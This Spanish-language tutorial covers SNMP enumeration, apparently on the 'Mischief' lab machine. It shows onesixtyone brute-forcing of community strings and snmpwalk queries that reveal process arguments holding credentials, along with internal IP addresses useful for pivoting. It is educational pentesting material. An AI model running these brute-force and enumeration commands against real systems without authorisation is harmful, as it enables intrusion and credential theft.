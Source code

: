 # **Enumeración de SNMP:**

El **Protocolo Simple de Administración de Red (SNMP)**, que se encuentra en el puerto **161/UDP**, es un protocolo diseñado para monitorizar y gestionar dispositivos en una red. Si bien es una herramienta administrativa muy útil, una configuración insegura puede exponer una cantidad masiva de información sensible, incluyendo procesos en ejecución, configuraciones de red, e incluso credenciales.

## **1. ¿Qué es SNMP y Dónde se Encuentra?**

  * **¿Qué es?** SNMP permite a los administradores de red consultar el estado de los dispositivos. Funciona con un sistema de "agentes" (los dispositivos) que exponen datos y un "gestor" (el administrador o atacante) que los consulta.
  * **¿Qué equipos lo usan?** Es extremadamente común en dispositivos de red como **routers, switches, impresoras y firewalls**, pero también se encuentra en **servidores (Linux y Windows)** para monitorizar su rendimiento, procesos y servicios.

### **Versiones de SNMP**

Existen tres versiones principales, con diferencias clave en seguridad:

1.  **SNMPv1:** La más antigua y menos segura. La autenticación se basa únicamente en una "Community String" enviada en texto plano.
2.  **SNMPv2c:** La más extendida. También utiliza **Community Strings** en texto plano, por lo que es igualmente vulnerable a ataques de fuerza bruta si se usan cadenas comunes.
3.  **SNMPv3:** La versión más segura. Introduce autenticación robusta y cifrado de datos, haciendo la enumeración no autorizada mucho más difícil.

## **2. El Talón de Aquiles: Las "Community Strings"**

Una **Community String** es básicamente una contraseña que controla el acceso a los datos de un agente SNMP. Existen dos tipos:

  * **Read-Only (RO):** Permite solo leer la información del dispositivo. La más común por defecto es `public`.
  * **Read-Write (RW):** Permite leer y modificar la configuración del dispositivo. La más común por defecto es `private`.

Encontrar una community string válida, especialmente una `private`, es el primer objetivo de un pentester.

-----

## **3. Fase de Enumeración y Ataque**

### **Paso 1: Descargar las MIBs (Base de Información de Gestión)**

Para que herramientas como `snmpwalk` puedan traducir los identificadores numéricos (OIDs) de SNMP a nombres legibles (como "hrSWRunName"), necesitamos las definiciones MIB.

1.  **Instalar las definiciones MIB:**
    ```bash
    sudo apt-get install snmp-mibs-downloader
    ```
2.  **Habilitar su carga:**
    Para que las herramientas las usen, debemos comentar la línea `mibs :` en el archivo de configuración de SNMP.
    ```bash
    # Comentar la siguiente línea en /etc/snmp/snmp.conf
    # mibs :
    ```

### **Paso 2: Fuerza Bruta de Community Strings con `onesixtyone`**

`onesixtyone` es una herramienta extremadamente rápida diseñada para un único propósito: encontrar community strings válidas mediante fuerza bruta.

```bash
onesixtyone -c /usr/share/seclists/Discovery/SNMP/common-snmp-community-strings-onesixtyone.txt 10.10.10.92
```

**Resultado Obtenido:**

```
Scanning 1 hosts, 120 communities
10.10.10.92 [public] Linux Mischief 4.15.0-20-generic #21-Ubuntu SMP Tue Apr 24 06:16:15 UTC 2018 x86_64
```

  * **Análisis:** ¡Éxito\! Hemos encontrado que la community string `public` es válida. La herramienta también nos proporciona información básica del sistema operativo.

### **Paso 3: Exfiltración de Información con `snmpwalk`**

Con la community string `public` en nuestro poder, podemos usar `snmpwalk` para "caminar" por el árbol de información del dispositivo y extraer datos.

#### **A. Fuga de Procesos en Ejecución**

Una de las fugas de información más críticas es la lista de procesos en ejecución.

**Comando para listar procesos:**

```bash
# -v2c: Especifica la versión de SNMP
# -c public: Especifica la community string
# hrSWRunName: Es el OID que corresponde a los nombres de los procesos en ejecución
snmpwalk -v2c -c public 10.10.10.92 hrSWRunName
```

También se puede usar el script de Nmap: `nmap -sU -p 161 --script snmp-processes {IP}`.

**Profundizando en un Proceso Específico:**
Si un proceso parece interesante (en este caso, uno con PID `810`), podemos solicitar toda la información relacionada con él.

```bash
snmpwalk -v2c -c public 10.10.10.92 hrSWRunTable | grep "810"
```

**Resultado Obtenido:**

```
HOST-RESOURCES-MIB::hrSWRunIndex.810 = INTEGER: 810
HOST-RESOURCES-MIB::hrSWRunName.810 = STRING: "python"
HOST-RESOURCES-MIB::hrSWRunID.810 = OID: SNMPv2-SMI::zeroDotZero
HOST-RESOURCES-MIB::hrSWRunPath.810 = STRING: "python"
HOST-RESOURCES-MIB::hrSWRunParameters.810 = STRING: "-m SimpleHTTPAuthServer 3366 loki:godofmischiefisloki --dir /home/loki/hosted/"
HOST-RESOURCES-MIB::hrSWRunType.810 = INTEGER: application(4)
```

  * **¡Jackpot\!** El campo `hrSWRunParameters` revela los argumentos con los que se lanzó el proceso. En este caso, hemos encontrado unas **credenciales (`loki:godofmischiefisloki`)** utilizadas para un servidor web de autenticación simple. Este es un hallazgo de severidad alta.

#### **B. Fuga de Interfaces de Red e IPs**

SNMP también puede revelar toda la configuración de red del dispositivo.

**Comando para listar IPs:**

```bash
snmpwalk -v2c -c public 10.10.10.92 ipAddressType
```

**Resultado Obtenido:**

```
IP-MIB::ipAddressType.ipv4."10.10.10.92" = INTEGER: unicast(1)
IP-MIB::ipAddressType.ipv4."127.0.0.1" = INTEGER: unicast(1)
IP-MIB::ipAddressType.ipv6."de:ad:be:ef:00:00:00:00:02:50:56:ff:fe:94:ce:b0" = INTEGER: unicast(1)
...
```

  * **Análisis:** Esto nos confirma todas las direcciones IP (IPv4 e IPv6) configuradas en el host, lo que puede revelar interfaces de red ocultas o internas, muy útiles para el pivoting y el movimiento lateral.